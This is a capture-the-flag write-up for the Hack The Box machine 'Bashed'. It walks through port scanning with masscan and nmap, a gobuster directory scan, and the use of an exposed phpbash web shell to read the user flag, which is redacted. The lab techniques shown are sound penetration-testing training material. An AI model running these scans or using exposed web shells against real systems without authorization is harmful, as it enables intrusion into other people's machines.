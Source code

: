 ## Default Information
IP Address: 10.10.10.68\
OS: Linux


## Enumeration
First, let us add the the IP address and host to our ```/etc/hosts``` file

```
10.10.10.68    bashed.htb
```

Next, let us do a masscan to identify the ports of interest

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.68 --rate=1000 -e tun0

[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-09-28 13:30:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.68 
```

Using the ports obtained from masscan, we will then run a scan using nmap to enumerate the services operating behind each port. For this machine, only port 80 is open, which
means that only web service is available on this machine.

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 80	| http | Apache httpd 2.4.18 ((Ubuntu)) | Open |

## Discovery

First, we will use Gobuster to find the endpoints that are accessible from http://bashed.htb

```
──(kali㉿kali)-[~]
└─$ gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/28 09:31:43 Starting gobuster in directory enumeration mode
===============================================================
http://bashed.htb/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
http://bashed.htb/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/] 
http://bashed.htb/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/] 
http://bashed.htb/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/] 
http://bashed.htb/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]  
http://bashed.htb/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/] 
http://bashed.htb/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]  
http://bashed.htb/server-status        (Status: 403) [Size: 298]
```

Next, we will try to enumerate for VHosts using Gobuster. However, there doesn't seem to have any interesting outputs. 

Navigating to http;//bashed.htb/dev, we notice that there are a few php files that can be accessed. Clicking on the ```phpbash.php``` file, we realize that we have spawned a web shell

![Spawning web shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bashed/web_shell.PNG)

## Obtaining user flag

Using the web shell that we obtained, we will now get our user flag

```
www-data@bashed:/home# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# ls -la arrexel
total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
<Redacted user flag>
```
